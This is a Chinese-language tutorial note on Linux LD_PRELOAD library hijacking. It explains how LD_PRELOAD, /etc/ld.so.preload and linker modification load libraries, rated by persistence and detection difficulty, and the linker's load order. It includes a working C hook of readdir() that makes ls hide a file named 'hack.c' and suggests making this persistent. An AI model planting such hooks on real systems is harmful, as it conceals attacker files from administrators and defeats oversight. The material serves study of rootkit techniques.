



# LD_PRELOAD 基础

## 1.常用方法

- 将恶意动态链接库通过 LD_PRELOAD 环境变量进行加载

- 将恶意动态链接库通过/etc/ld.so.preload 配置文件进行加载

- 修改动态链接器来实现恶意功能

方法区别：

| 方法          | 已运行进程 | 新启动进程 | 子进程 | 持久性 | 检测难度 |
| ------------- | ---------- | ---------- | ------ | ------ | -------- |
| LD_PRELOAD    | ❌          | ✅          | ✅      | 低     | 容易     |
| ld.so.preload | ❌          | ✅          | ✅      | 高     | 中等     |
| 修改链接器    | ❌          | ✅          | ✅      | 最高   | 困难     |

环境变量区分：

| 特性         | LD_PRELOAD             | LD_LIBRARY_PATH      |
| ------------ | ---------------------- | -------------------- |
| **作用**     | 指定要 **强制加载** 的库 | 指定 **搜索库** 的路径 |
| **用途**     | 明确加载特定库文件     | 告诉链接器去哪找库   |
| **优先级**   | 符号解析最高优先级     | 只影响搜索位置       |
| **使用场景** | 函数拦截、调试         | 指定库的位置         |


## 2.动态链接库加载的完整顺序

```markdown
程序启动 (execve)
    ↓
1. 内核加载 ELF 解释器 (/lib64/ld-linux-x86-64.so.2)
    ↓
2. 动态链接器开始工作
    ↓
【第一阶段:预加载库】
3. LD_PRELOAD 环境变量指定的库
    ↓
4. /etc/ld.so.preload 文件中列出的库
    ↓
【第二阶段:程序依赖库】
5. 程序 DT_NEEDED 段中直接依赖的库 (按顺序)
    ↓
6. 依赖库的依赖库 (递归,深度优先搜索)
    ↓
【第三阶段:系统库】
7. C运行时库 (libc.so.6) - 如果还没加载
    ↓
8. 其他系统基础库
    ↓
【第四阶段:符号解析和重定位】
9. 按加载顺序进行符号绑定
    ↓
10. 执行所有库的初始化函数 (.init, constructors)
    ↓
11. 转移控制到程序入口点 (_start)
```

符号解析优先级：虽然 vdso 最先加载，但在符号解析时的优先级是：

- LD_PRELOAD 的库
- /etc/ld.so.preload 的库
- 程序本身的符号
- 按加载顺序的依赖库
- linux-vdso.so.1（通常只包含系统调用相关符号）

实验测试：PIC 可在任意位置加载的代码，主要用于动态库与安全随机化（ASLR）



```markdown
【内核阶段 - 在动态链接器运行前】
0. linux-vdso.so.1           ← 内核映射,最早存在
1. ld-linux-x86-64.so.2      ← 内核启动动态链接器

【动态链接器阶段】  
2. LD_PRELOAD 指定的库        ← ./test.so
3. /etc/ld.so.preload 的库
4. 程序 DT_NEEDED 依赖        ← libselinux.so.1
5. 程序 DT_NEEDED 依赖        ← libc.so.6
6. 递归依赖                   ← libpcre2-8.so.0 (libselinux的依赖)
```

注意：

* 出于安全考虑，对于设置了 SUID 权限位的程序，LD_PRELOAD 会被忽略。由于函数插入几乎可以让你让程序执行任何你想让它做的事情，因此 Linux 会阻止你修改以其他用户或组身份运行的程序的行为。其次，你无法插入内部库函数调用，因为这些调用在运行时之前就已经解析了
* /etc/ld.so.preload 是系统级配置文件, 适用于所有进程并影响整个系统, 访问此文件需要 root 权限。而 LD_PRELOAD 是环境变量, 允许单个用户在每个进程的基础上为特定可执行文件或命令指定要预加载的库, 因此不需要 root 权限即可使用。由 LD_PRELOAD 定义的库会在 /etc/ld.so.preload 中的库之前加载


## 3.对 ls 程序实验

程序源码仓库：https://github.com/coreutils/coreutils

main 函数中调用的 print_dir 函数中的 wihle 循环中，readdir() 返回参数 dir 目录流的下个目录进入点，当返回 NULL 时, 表示已到达目录末尾	



劫持该函数使得 ls 程序不显示指定的程序名：

* dlsym 打开一个指向动态库的句柄并获取原始 readdir 函数的地址
* 参数的值被设置为 RTLD_NEXT，那么该函数返回下一个共享对象中名为 name 的符号的运行时地址，下一个共享对象是指下一个定义了名称为 name 的符号的共享库，而不是下一个加载的共享库

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
// 原始 readdir 函数的函数指针类型定义
typedef struct dirent* (*ls_t)(DIR*);
// 拦截的 readdir 函数
struct dirent* readdir(DIR* dirp) {
  // 获取原始 readdir 地址
  ls_t original_readdir = (ls_t)dlsym(RTLD_NEXT, "readdir");
  struct dirent* entry;
  do {
    // 调用原始函数获取下一个目录条目
    entry = original_readdir(dirp);
    // 检查是否是我们要隐藏的文件
    if (entry != NULL && strcmp(entry->d_name, "hack.c") == 0) {
      // 通过再次调用原始函数跳过该文件
      entry = original_readdir(dirp);
    }
  } while (entry != NULL && strcmp(entry->d_name, "hack.c") == 0);
  return entry;
}
```

测试达到预期效果：



如果需要持久化利用，可以写入环境变量当中
